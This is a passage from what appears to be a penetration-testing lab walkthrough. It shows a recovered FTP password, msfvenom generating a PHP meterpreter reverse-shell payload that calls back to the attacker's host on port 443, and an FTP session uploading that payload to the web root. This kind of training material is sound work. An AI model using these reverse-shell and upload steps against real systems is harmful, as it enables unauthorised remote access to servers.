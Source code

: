 We discover that the password for the `offsec` user is `elite`.

### PHP Reverse Shell

Since we discovered a PHP file on the server, it is reasonable to assume that the server can interpret and process PHP files. We can try to upload a PHP reverse shell. First, we'll generate the payload.

```
kali@kali:~$ msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=192.168.49.68 lport=443 > pwn.php

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
```

Next, we'll log back in to FTP as `admin` and upload the malicious PHP file.

```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> put pwn.php
local: pwn.php remote: pwn.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
1113 bytes sent in 0.00 secs (14.9499 MB/s)
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 5
-r--r--r--   1 root     root         1113 Dec 28 02:08 pwn.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> bye
221 Goodbye.
kali@kali:~$
```
